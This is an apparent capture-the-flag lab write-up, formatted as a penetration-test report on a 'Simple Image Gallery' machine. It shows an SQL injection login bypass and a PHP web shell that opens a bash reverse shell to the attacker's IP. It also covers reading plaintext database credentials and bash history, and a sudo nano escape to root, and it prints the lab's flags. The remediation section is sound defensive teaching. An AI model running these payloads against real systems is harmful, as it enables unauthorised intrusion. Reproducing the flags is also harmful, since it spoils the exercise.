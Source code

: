 1. Executive Summary
A comprehensive penetration test was conducted on a target machine hosting a "Simple Image Gallery" web application. The assessment revealed critical vulnerabilities, including an SQL Injection authentication bypass and insecure file upload mechanisms, leading to initial access. Further enumeration led to the discovery of plaintext database credentials. Privilege escalation was possible by leveraging a user's bash history and a misconfigured sudo permission, ultimately granting full root access to the system. This report documents the methodology, findings, and recommendations.

2. Reconnaissance & Enumeration
The engagement began with service enumeration using Nmap to identify open ports and running services.

Command Executed:

bash
nmap -sC -sV 10.201.34.93
Findings:

text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Simple Image Gallery System
|_http-server-header: Apache/2.4.41 (Ubuntu)
Analysis: Three services were identified. While port 80 hosted a default Apache page, port 8080 was running the "Simple Image Gallery System" CMS, which was selected as the primary attack vector.

3. Initial Foothold: Web Application Exploitation
3.1. Authentication Bypass via SQL Injection
The login form on the application was tested for SQL Injection vulnerabilities.

Payload Used:
In the username field: ' OR 1=1 -- -

Result: The payload successfully bypassed authentication, granting access to the administrative dashboard.

3.2. Gaining Remote Code Execution (RCE)
To establish a persistent foothold, a PHP web shell was uploaded to the server. A reverse shell script was created to connect back to my listener.

Contents of shell.php:

php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.201.85.239/1234 0>&1'");
?>
Listener Started on AttackBox:

bash
nc -lvnp 1234
The shell was activated by navigating to http://10.201.34.93:8080/gallery/shell.php in the browser. A connection was received, and an interactive shell was upgraded using:

bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
Result: Access was gained as the www-data user.

4. Post-Exploitation & Lateral Movement
4.1. Database Credential Discovery
File system enumeration revealed a configuration file containing database credentials.

File Analyzed: /var/www/html/gallery/initialize.php

Credentials Found:

Username: gallery_user

Password: passw0rd321

Database: gallery_db

4.2. Database Interaction
These credentials were used to interact with the MySQL database directly from the shell.

Command Executed:

bash
mysql -u gallery_user -p gallery_db
SQL Query:

sql
SELECT * FROM users;
Database Output:

text
+----+--------------+----------+----------+----------------------------------+------------------------------+
| id | firstname    | lastname | username | password                         | avatar                       |
+----+--------------+----------+----------+----------------------------------+------------------------------+
|  1 | Adminstrator | Admin    | admin    | 73d999b4978d1780b23cd63495b81bcc | uploads/1757022240_shell.php |
+----+--------------+----------+----------+----------------------------------+------------------------------+
Analysis: The database contained an administrative user with a password hash and a reference to an uploaded PHP shell, confirming the initial attack path.

5. Privilege Escalation to User mike
Attempts to switch to the user mike were initially unsuccessful with the database password. The user's .bash_history file was inspected and found to contain a cleartext password.

Command Executed:

bash
cat /home/mike/.bash_history
Password Found: b3stpassw0rdbr0xx

This password was used to switch to the mike user and retrieve the user flag.

Commands Executed:

bash
su mike
# Password: b3stpassw0rdbr0xx
cat /home/mike/user.txt
User Flag: THM{af05cd30bfed67849befd546ef}

6. Privilege Escalation to Root
The sudo permissions for user mike were checked, revealing a critical misconfiguration.

Command Executed:

bash
sudo -l
Output:

text
User mike may run the following commands on ip-10-201-34-93:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
The /opt/rootkit.sh script was analyzed:

Contents of /opt/rootkit.sh:

bash
#!/bin/bash
read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
The script's read option executed the nano text editor as root. Following the GTFOBins methodology for nano, a root shell was spawned.

Exploitation Steps:

Command: sudo /bin/bash /opt/rootkit.sh

Option Selected: read (This opens /root/report.txt in nano as root)

In Nano:

Pressed Ctrl+R (Read File)

Pressed Ctrl+X (Exit prompt)

Entered the command: reset; sh 1>&0 2>&0

Pressed Enter

Result: A root shell was successfully spawned.

Root Flag Retrieval:

bash
cat /root/root.txt
Root Flag: THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}

7. Conclusion & Recommendations
7.1. Summary of Vulnerabilities

SQL Injection (CWE-89): In the login form, allowing authentication bypass.

Unrestricted File Upload (CWE-434): Allowing the upload and execution of a malicious PHP shell.

Cleartext Storage of Sensitive Information (CWE-312): Database credentials stored in a plaintext PHP file.

Incorrect Privilege Assignment (CWE-266): The sudo configuration allowed a user to run a script as root without a password, which contained an editor (nano) that could be exploited to break out into a shell.

7.2. Remediation Strategies

Input Validation: Use parameterized queries (prepared statements) to prevent SQL Injection.

File Upload Hardening: Implement strict whitelists for allowed file extensions, store uploaded files outside the web root, or use a dedicated storage solution.

Secrets Management: Remove hardcoded credentials from source code. Utilize environment variables or a secure secrets management vault.

Principle of Least Privilege: Audit and tighten sudo permissions. Avoid granting NOPASSWD access to commands that can spawn shells or editors. Replace interactive editors like nano with non-interactive commands in scripts where possible.

This test demonstrates how a chain of vulnerabilities can be exploited to compromise a system fully. Addressing any single link in this chain would have significantly increased the difficulty of the attack.
